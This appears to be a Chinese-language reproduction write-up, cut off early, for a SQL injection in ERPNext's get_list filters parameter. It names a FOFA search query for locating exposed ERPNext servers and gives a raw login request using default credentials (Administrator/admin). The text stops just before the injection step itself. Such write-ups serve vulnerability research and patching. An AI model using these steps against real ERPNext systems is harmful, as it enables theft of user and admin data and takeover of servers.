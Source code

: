 
# ERPNext SQL 注入漏洞复现

### 0x01 产品简介

 ERPNext 是一套开源的企业资源计划系统。

### 0x02 漏洞概述

 ERPNext 系统 frappe.model.db\_query.get\_list 文件 filters 参数存在 SQL 注入漏洞，攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 复现环境

FOFA：app="ERPNext"

![](assets/1701746027-f399d191f30f784ea3efa51ed8776fbe.png)

### 0x04 漏洞复现 

获取有效 cookie

```http
POST / HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 52

cmd=login&usr=Administrator&pwd=admin&device=desktop
```

![](assets/1701746027-def19b077e2b94140d397452dd9a6fb4.png)

尝试注
